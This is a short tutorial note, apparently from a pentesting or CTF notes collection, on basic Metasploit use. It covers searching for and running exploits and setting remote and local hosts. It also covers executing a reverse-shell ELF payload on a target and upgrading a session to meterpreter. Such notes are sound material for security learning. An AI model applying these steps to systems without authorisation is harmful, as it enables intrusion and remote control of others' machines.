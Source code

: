 1._Basic_metasploit

1. Basic metasploit

Metasploit is a tool designed to make hacking easier. The free version is 100% command based and easily detected by antivirus solutions nowadays so don't assume it'll work on boxes with antiviruses.

## Basic flow:
- `msfconsole` to start metasploit
- `search SEARCH TERM` to look through exploits
- `use EXPLOIT`
- Exploit can be either the full path like `exploit/multi/handler` or can be a number from a search
------
`options` shows the options. Set the options with `set OPTION VALUE` like `set RHOSTS 10.10.10.10`. Anything that starts with R is the remote machine and L is the local machine. RHOSTS vs RHOST: RHOST can only run against one machine at once while RHOSTS can run against multiple machines

-------
`run` to run the exploit. This may take some time, and sometimes exploits will just not work the first time. **Just try, try again!**

--------
If you get a shell, most likely you will get a meterpreter shell. See the meterpreter note for help using meterpreter. If not, then just type your commands directly into the command line and you should get feedback from the box.

## Getting a metasploit shell from a simple reverse shell
See Basic msfvenom for how to do this. Use the elf payload for linux (`chmod +x shell.elf; ./shell.elf`) or the exe payload for windows and upload it using one of the methods in the File transfer note.

## Upgrading a simple shell to meterpreter
Note: this is only if you have a shell within metasploit that isn't meterpreter.
1. `background` or `^Z` to background the session.
2. `sessions` and get the session number
3. `use post/multi/manage/shell_to_meterpreter`
4. `options` and set the session to the session # and the LPORT to an unused port
5. `run` and you should see a new meterpreter session open. Your original shell may die but now you have a meterpreter shell! There is the off-chance that this will fail and the shell dies, just FYI

